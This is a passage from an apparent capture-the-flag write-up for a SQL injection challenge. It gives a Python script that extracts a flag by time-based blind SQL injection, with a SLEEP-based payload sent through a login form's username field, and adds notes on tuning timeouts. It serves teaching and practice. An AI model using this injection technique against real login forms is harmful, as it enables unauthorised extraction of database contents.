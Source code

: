 ```python
flag=""
while i<len_flag:
    for name_char in chars:
        sql_injection="' OR 1=IF((SELECT "+column2_name+" FROM "+table1_name+" LIMIT 0,1) LIKE '"+str(flag_name+name_char)+"%', SLEEP(12), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=10)  #Random Password
        except:
            flag_name+=name_char
            break
    i=i+1

flag=flag_name.replace("\_","_")
print ("[Found]The flag is: "+flag) #Flag
```
During the discovery of each character of the flag I encountered some difficulties because some requests were processed more slowly than usual and therefore some discovered characters were wrong (I don't know why this problem didn't happen to me in other phases of the attack as well). Therefore, I decided to increase the requests' timeout interval and the number of seconds specified inside the sleep() function.

Let's run it (this part may take a few minutes to complete and find the flag):

![Len_Flag](https://user-images.githubusercontent.com/66698256/230970687-e7b4208c-7ed2-44b6-9087-ba44e18ba4b7.png)

![Flag](https://user-images.githubusercontent.com/66698256/230970709-d09586c9-32b0-4675-be9f-27c26b19e474.png)

(If sometimes the exploit doesn't work I recommend you to adjust some time parameters, since its functioning also depends on the type of network connection you have)

Flag is <code>bucket{h4d35t_sql1_2b05bc}</code>.

## References
<a id="1">[1]</a> 
https://github.com/H31s3n-b3rg/BucketCTF_2023/blob/main/SQLi/SQLi-3/README.md
